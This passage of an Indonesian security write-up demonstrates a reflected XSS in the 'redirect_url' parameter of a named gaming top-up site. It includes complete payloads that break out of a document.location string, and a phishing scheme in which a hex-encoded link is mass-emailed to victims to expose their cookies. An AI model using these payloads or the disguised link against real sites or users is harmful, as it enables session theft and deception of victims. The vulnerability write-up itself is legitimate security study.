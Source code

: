 
3. **Mempertimbangan penggunaan fungsi "*substr()*" lebih disarankan ketimbang fungsi "*strpos()*"**<br> Setelah melalui beberapa pertimbangan , jika kita perhatikan string ``` document.location ```itu sudah ada isinya yaitu "*google.com*" jadi untuk membersihkannya menurut saya (dibantu oleh referensi dari google) lebih prefer menggunakan fungsi [substr()](https://www.malasngoding.com/manipulasi-string-pada-javascript/) ketimbang fungsi [strpos()](https://www.duniailkom.com/tutorial-php-cara-mencari-posisi-string-php-fungsi-strpos/) atau bisa dikatakan penggunaan substr itu untuk mengambil slice dari string nya . Saya tambahkan 0,0 menjadi
.substr(0,0); , jika kita taro di parameter jadi seperti ini : <br> ``` ?redirect_url=https://www.google.com'.substr(0,0); ``` <br><br>
![this_ss_sniff](https://robotmikhro.github.io/img/IMG_20190411_211414.jpg) <br>
![this_ss_kodejs](https://robotmikhro.github.io/img/IMG_20190411_211441.jpg) <br> Namun page tetap tidak ter-redirect. <br>
4. **Menambahkan fungsi "*concat(urlnya)*" untuk menggabungan string dengan string dengan urlnya *diarray*** : <br> Maka dari itu saya coba menambahkan ```.concat('https:','//','ramaren.com'); ```  jika digabungkan menjadi seperti ini <br>
``` document.location='https://www.google.com'.substr(0,0).concat('https:','//','ramaren.com'); ``` . Namun seperti sebelum²nya page masi belom ter-redirect .<br>
5. **Menambahkan "*//*" dibagian akhir kode** : <br> Untuk mengatasi page yang masi belom ter-redirect (belum sukses membypass) itu ternyata akibat dari adanya error syntax pada javascript, 
solusinya kita perlu menambahkan "**//**" dibagian akhir. <br>Bentuk url & parameter secara keseluruhan menjadi seperti ini : <br>
> https://pointblank.id/topup/auth?redirect_url=https://www.google.com'.substr(0,0).concat('https:','//','ramaren.com');//```<br>

Fungsinya apa sih? fungsi nya untuk mematikan "*?access_token=token*" agar tidak terjadi error syntax pada kode javascript tersebut. <br>
Lalu coba kita execute url tersebut di browser dan liat hasilnya : <br>
![video_to_gif](https://robotmikhro.github.io/img/Screenrecorder201904120437.gif) <br><br>
**Nah sampai pada tahap ini kita sudah berhasil melakukan bypass pada document.location** .<br>
•Dan untuk memunculkan *Pop Up XSS* yang perlu kita lakukan hanya menambahkan :
``` ;alert(2);// ```  dan mengganti yang ada pada concat() dari "*https://ramaren.com*" menjadi "*document.location*" . Mengapa  mesti "*document.location*" ? Soalnya itu ngereplace document.location 
sama string yg baru, kalau di replace sama dirinya sendiri kan berarti 
engggak ada yg berubah. Umpamanya  nya jadi kayak gini ``` document.location = document.location ```  , sehingga klu digabungin sama url lengkapnya jadi begini : <br>

> https://pointblank.id/topup/auth?redirect_url=https://www.google.com'.substr(0,0).concat(document.location);alert("XSS");//  <br> 

•Lalu coba kita eksekusi di browser.<br>
![ss-sukses-xss](https://robotmikhro.github.io/img/IMG_20190412_050853.jpg) 

yeahh ! 😎 XSS sukses ter-eksekusi dan memunculkan pop up 😁 ... <br><br>

Saya juga akan menunjukkan bagaimana skema seorang attacker untuk mengelabui korban/victim (disini ceritanya si victim adalah user dari website tersebut) dan mencuri cookienya . Simak berikut ini :
### Skema Attacker/Hacker ketika melakukan social engginering kepada korban/user untuk mendapatkan cookie  user (lengkap dengan gambar)

1. **Attacker melakukan social engineering melalui email :**<br>
Attacker akan mengirimkan link melalui email kepada user secara mass dengan iming² event berhadiah ;
``` https://www.pointblank.id/topup/auth?redirect_url=//www.google.com/2uX4ygk'.substr(0,0).concat(document.location);document.write('<center><h1><b>THANK YOU FOR YOUR ATTENTION ! :D</b></center></h1>');javascript:prompt("Dibagian ini user cookie user bisa dicuri oleh sang Attacker/Hacker ! Ini dia cookienya :",document.cookie);//  ``` <br>

Agar sang korbang tidak curiga , si Attacker melakukan encode pada url tersebut terutama yang bagian kode javascriptnya , menjadi seperti ini ;
> https://www.pointblank.id/topup/auth?redirect_url=%2f%2fwww.google.com%2f2uX4ygk%27%2e%73%75%62%73%74%72%280%2c0%29%2e%63%6f%6e%63%61%74%28%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%29%3b%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%27%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%3c%62%3e%54%48%41%4e%4b%20%59%4f%55%20%46%4f%52%20%59%4f%55%52%20%41%54%54%45%4e%54%49%4f%4e%20%21%20%3a%44%3c%2f%62%3e%3c%2f%63%65%6e%74%65%72%3e%3c%2f%68%31%3e%27%29%3b%6a%61%76%61%73%63%72%69%70%74%3a%70%72%6f%6d%70%74%28%22%44%69%62%61%67%69%61%6e%20%69%6e%69%20%75%73%65%72%20%63%6f%6f%6b%69%65%20%75%73%65%72%20%62%69%73%61%20%64%69%63%75%72%69%20%6f%6c%65%68%20%73%61%6e%67%20%41%74%74%61%63%6b%65%72%2f%48%61%63%6b%65%72%20%21%20%49%6e%69%20%64%69%61%20%63%6f%6f%6b%69%65%6e%79%61%20%3a%22%2c%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%2f%2f <br>
```